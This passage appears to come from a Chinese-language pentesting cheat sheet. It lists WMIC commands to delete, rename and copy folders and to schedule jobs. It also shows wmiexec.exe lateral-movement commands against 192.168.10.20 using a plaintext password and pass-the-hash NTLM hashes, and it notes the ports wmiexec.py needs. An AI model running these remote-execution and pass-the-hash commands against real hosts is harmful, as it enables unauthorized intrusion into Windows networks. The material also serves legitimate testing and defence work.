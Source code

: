 

```
#列出c盘下名为test的目录      
wmic FSDIR where "drive='c:' and filename='test'" list      
#删除c:\good文件夹      
wmic fsdir "c:\test" call delete      
#重命名c:\test文件夹为abc      
wmic fsdir "c:\test" rename "c:\abc"      
wmic fsdir where (name='c:\test') rename "c:\abc"      
#复制文件夹      
wmic fsdir where name='d:\test' call copy "c:\test"      1
#重命名文件      1
wmic datafile "c:\test.txt" call rename c:\abc.txt
```




### 计划任务



```
wmic job call create "notepad.exe",0,0,true,false,********154800.000000+480      
wmic job call create "explorer.exe",0,0,1,0,********154600.000000+480
```




wmiexec.exe(admin$)

===================



```
wmiexec.exe administrator:root@192.168.10.20      
wmiexec.exe administrator@192.168.10.20 -hashes d480ea9533c500d4aad3b435b51404ee:329153f560eb329c0e1deea55e88a1e9
```




![](https://img-blog.csdnimg.cn/20200423113717738.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



wmiexec.py

==========



使⽤ wmiexec.py 脚本进⾏横向的前提是：  

1. 目标主机开启了 135 端⼝（135 端⼝是 WMIC 默认的管理端⼝）  

2. 目标主机开启了 445 端⼝（wimcexec 使⽤445端⼝传回显）



准确说、如果要把输出结果写⽂件的话，需要⽤smb回传。如果写注册表，直接⽤ wmi 就能回来了，就不需要⾛445了。sharpwmi 这个项⽬不依赖139和445端⼝，但是还需要依赖 135 端⼝。
